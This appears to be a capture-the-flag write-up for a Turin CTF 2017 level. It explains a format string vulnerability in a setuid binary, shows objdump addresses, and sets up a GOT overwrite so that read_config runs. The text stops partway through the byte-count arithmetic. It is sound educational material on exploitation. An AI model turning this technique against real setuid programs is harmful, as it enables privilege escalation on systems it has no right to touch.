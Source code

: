 **flag6**: `T_CTF{70_Ph0LL0W_73h_pa7h,_l00K_70_73h_mA573R,_Ph0ll0w_73H_MA573r,_wALK_W17h_73H_mA573R,_533_7Hr0u9H_73h_mA573r,_83C0M3_73h_ma573R,0r_jus7_3X3cU73_PHR0m_4N07H3R_P47H.}`


Now that we are *level2* we can ls into `/home/level3/`

	-r-------- 1 level3 level3   60 Nov 14 13:52 config
	-r-sr-x--- 1 level3 level2 7728 Nov 14 15:04 copyrighter

We can see that `copyrighter` that has `setuid` permission enabled and will be executed as *level3*

	$ stat -c "%a %U" /home/level3/copyrighter 
	4550 level3

We downloaded the binary file (via scp or sftp) and [decomipled](https://github.com/jbzteam/CTF/blob/master/TurinCTF2017/copyrighter_decompiled.c) with IDA

You can "easily" see that the `printf(&s)` call in `add_copyright` function is a vulnerable format string.

*Note*: I actually never exploited a format string before so I needed a fast-course on that :D

Briefly, `printf` expect the format string as first parameter, like `int: %d, string: %s`.  
For each format code, printf will check for the next allocation in the stack and will print that value instead.

This way we can read values from the memory.  
Using `%n` you can write in the next allocation the number of bytes read in the format string until now.

Target: overwrite the `exit(1)` call at the end of `add_copyright` function with the address of `read_config` function so the latter will be executed and it will print the `config` file. 

This 3 video from LiveOverflow will help you understand.
[1](https://www.youtube.com/watch?v=0WvrSfcdq1I) [2](https://www.youtube.com/watch?v=kUk5pw4w0h4) [3](https://www.youtube.com/watch?v=t1LH9D5cuK4)

With `objdump -d ./copyrighter` we get the `exit@plt` GOT and `read_config` addresses

	08048480 <exit@plt>:
	 8048480:	ff 25 24 a0 04 08    	jmp    *0x804a024   <------------- exit
	 8048486:	68 30 00 00 00       	push   $0x30
	 804848b:	e9 80 ff ff ff       	jmp    8048410 <_init+0x28>
	[...] 
	080485cb <read_config>:    <------------ read_config
	 80485cb:	55                   	push   %ebp
	 80485cc:	89 e5                	mov    %esp,%ebp


We need to overwrite `0x804a024` with `0x80485cb`.

We wrote [this python script](https://github.com/jbzteam/CTF/blob/master/TurinCTF2017/pwn.py) that will create the exploit.

How many chars we need to write with `%n` ?

	0x80485cb

	0x85cb - 32 = 34219  # lower nibble

	0x10804 - 0x85cb = 33337  # higher nibble
